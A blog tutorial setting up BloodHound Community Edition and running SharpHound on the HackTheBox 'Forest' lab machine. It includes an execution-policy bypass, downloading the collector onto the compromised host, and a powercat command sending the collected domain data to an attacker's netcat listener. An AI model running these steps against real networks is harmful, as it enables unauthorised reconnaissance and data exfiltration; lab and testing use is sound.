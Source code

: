 
---
title: "How to Setup BloodHound Community Edition"
summary: "Quick explanation on how to get BloodHound up and running in a few minutes! This post include a step by step installation guide of **BloodHound**, as well as downloading **SharpHound** and uploading it to a machine in order to map out an Active Directory Network."
categories: ["Post","Blog",]
tags: ["tools"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2025-01-11

---

## BloodHound 
**BloodHound** is a powerful and widely used tool in the field of cybersecurity, particularly for penetration testers in _Corporative Enviroments_. It is designed to map and analyze Active Directory structures, helping identify security misconfigurations and potential attack paths that an adversary could exploit to escalate privileges or gain access to sensitive resources.

**BloodHound** operates by collecting and visualizing relationships within an AD domain. These relations include group memberships, user permissions, trust relationships, and more. The tool’s strength lies in its ability to uncover complex chains of privileges that might be invisible to administrators manually auditing AD security.

We will do a quick installation step by step of the Community Version of **BloodHound**, as well and a small step by step tutorial on how to run both **BloodHound** and **SharpHound** taking as an example the [Forest](https://s3ntinl.github.io/posts/forest/) Machine from HackTheBox. Check out my post of the machine if you haven't already!

Let's begin!

- - -
## Installation
First, we need to install _Docker_:

```bash
kali@kali:~$ sudo apt install -y docker.io

kali@kali:~$ sudo systemctl enable docker --now
```

Then, create the _docker_ group if it does not exist:

```bash
kali@kali:~$ sudo groupadd docker
```

Add your user to the _docker_ group:

```bash
kali@kali:~$ sudo usermod -aG docker $USER
```

Now, install **docker-compose** form [github](https://github.com/docker/compose/). Also, remember to give execution rights to the binary and add it to the `/usr/bin` directory.

>Keep in mind your architecture of Linux when downloading Docker-Compose. I use ARM Version of Kali Linux but you may use other version.

```bash
kali@kali:~$ mv ./docker-compose-linux-aarch64 docker-compose
kali@kali:~$ chmod +x ./docker-compose
kali@kali:~$ mv ./docker-compose /usr/bin/
```

Lastly, we need to copy the **BloodHound** `docker-compose.yml` file to save it locally:

```bash
kali@kali:~$ sudo wget https://ghst.ly/getbhce -O docker-compose.yml
kali@kali:~$ docker-compose up
```

**BloodHound** will be available on port 8080.

- - -
## SharpHound
**SharpHound** is the data collection component of BloodHound. It is a C# tool designed to gather information from Active Directory environments, which is then used by BloodHound to map and analyze attack paths. SharpHound collects data such as user sessions, group memberships, ACLs, and trust relationships, giving penetration testers and security analysts a detailed view of the environment.

The collected data is stored in JSON files, which are later imported into BloodHound for visualization and analysis. Together, SharpHound and BloodHound are a powerful duo for identifying and understanding security weaknesses in AD domains.

- - -
## BloodHound  and SharpHound Usage

First, let's log into **BloodHound**. We have it already running, so we need to access it on `http://localhost:8080`.

![bloodhound1](/img/bloodhound/bloodhound1.png)

> The first time we access **BloodHound**, we will need to input the random generated password found on the terminal window where `docker-compose` is running. Then, we will need to change it. The default user is **admin**.

![bloodhound9](/img/bloodhound/bloodhound9.png)

Now on the _Download Collectors_ tab, we can download the latest version of **SharpHound**:

![bloodhound3](/img/bloodhound/bloodhound3.png)

Here, select **SharpHound**, and we’re almost ready to start collecting data! Just a few more steps:

![bloodhound4](/img/bloodhound/bloodhound4.png)

Next, upload the **SharpHound** executable to the Windows machine whose Active Directory you intend to map. From our Attacker Machine, we serve **SharpHound** from a _Python_ Server:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound/sharphound]
└─$ python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

From the Windows Machine, we download **SharpHound** with the following command:

```powershell
PS C:\Users\svc-alfresco\Desktop> iwr -uri http://10.10.14.18/SharpHound.ps1 -Outfile SharpHound.ps1
```

After transfer it to the Windows Machine, we can import it to PowerShell:

```powershell
PS C:\Users\svc-alfresco\Desktop> powershell -ep bypass

PS C:\Users\svc-alfresco\Desktop> Import-Module .\Sharphound.ps1
```

Now, we can run the script to collect all the information from the domain. **SharpHound** primarily relies on `LDAP` queries to gather data from Active Directory. Since LDAP queries are a standard part of domain communication, any domain-authenticated user can execute them, which is why SharpHound doesn’t require administrative privileges for most of its operations.

```powershell
PS C:\Users\svc-alfresco\Desktop> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\svc-alfresco\Desktop\ -OutputPrefix "forest"
```

After executing, we'll see a **zip** file with all the information. That's what we need to transfer back to our attacking machine. The .bin file that **BloodHound** generates is a binary file used as a cache for preprocessed data. When you import JSON files collected by SharpHound into BloodHound, it processes the data and stores it in a Neo4j database. 

The `.bin` file serves as a local cache of this processed data to improve performance, but we don't necesarilly need to transfer it back to our machine, so we will ignore it.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> ls


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/10/2025   9:29 AM          43554 forest_20250110092905_BloodHound.zip
-a----        1/10/2025   9:15 AM        1942029 SharpHound.ps1

```

We can use our favorite transfer method, I will use `powercat.exe`:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> powercat -c 10.10.14.18 -p 4444 -i C:\Users\svc-alfresco\Desktop\forest_20250110092905_BloodHound.zip
```

On our Attacking Machine, we need to open a `netcat` listener in order to receive the data:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound]
└─$ sudo nc -nlvp 4444 > bloodhound.zip   
listening on [any] 4444 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.161] 50906
```

Once we have the zip file locally on our machine, let's upload it to **BloodHound**. First, press the _Administration_ option.
![bloodhound2](/img/bloodhound/bloodhound2.png)

Import the zip file in the _File Ingest_ option, in the _Data Collection_ section:

![bloodhound10](/img/bloodhound/bloodhound10.png)

Click and Select the _zip_ file

![bloodhound5](/img/bloodhound/bloodhound5.png)

Nice! It was succesfully uploaded.

![bloodhound6](/img/bloodhound/bloodhound6.png)

Teaching how to do queries with **BloodHound** it out of the scope of this post, but let's run a quick "_Shortest Paths to Domain Admins_" query to check if the ingestion of the data was successful.
![bloodhound7](/img/bloodhound/bloodhound7.png)

It works! You now have a fully functional **BloodHound** instance up and running, ready to map out and analyze your Active Directory environment. 

## Stopping the Instance

Stopping the instance is as easy as pressing `Ctrl+C` on the terminal window where `docker-compose` is running.

![bloodhound8](/img/bloodhound/bloodhound8.png)

If you want to set it up again, just do `docker-compose up` and you are good to go.

I hope this guide was helpful in getting everything set up smoothly, as setting up a **BloodHound** environment could be tricky at first. Give it a try! 